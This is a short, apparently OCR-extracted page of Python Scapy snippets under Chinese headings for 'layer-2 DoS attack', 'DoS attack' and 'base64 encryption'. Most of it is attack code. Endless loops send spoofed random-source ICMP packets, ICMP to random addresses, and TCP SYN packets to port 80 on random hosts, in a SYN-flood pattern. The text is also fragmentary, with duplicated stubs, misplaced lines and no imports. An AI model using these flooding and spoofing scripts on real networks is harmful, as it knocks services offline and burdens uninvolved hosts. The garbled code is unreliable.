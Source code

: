 
          pass
      if __name__ == '__main__':
          main()
      def main():

          while 1:
              packet = IP(src=RandIP(), dst=RandIP())/ICMP()
              time.sleep(0.5)
              sendp(packet)
              print(packet.summary())


          pass
      if __name__ == '__main__':
          main()


##  二层DOC攻击
      def main():

          while 1:
              pdst ="%i.%i.%i.%i" %(randint(1,254),randint(1,254),randint(1,254),randint(1,254))
              psrc = "192.168.137.100"
              send(IP(src=psrc, dst=pdst)/ICMP())
              time.sleep(0.5)
              print(pdst)


          pass
      if __name__ == '__main__':
          main()



##  DOS攻击  ##
      def main():

          while 1:
              pdst ="%i.%i.%i.%i" %(randint(1,254),randint(1,254),randint(1,254),randint(1,254))
              psrc = "192.168.137.100"
              send(IP(src=psrc, dst=pdst)/TCP(dport=80, flags="S"))
              time.sleep(0.5)
              print(pdst)


          pass
      if __name__ == '__main__':
          main()



##  base64加密  ##
      def main():

          s = "haha123"
          bs = base64.b64encode(s.encode('utf-8'))
          print(bs.decode('utf-8'))
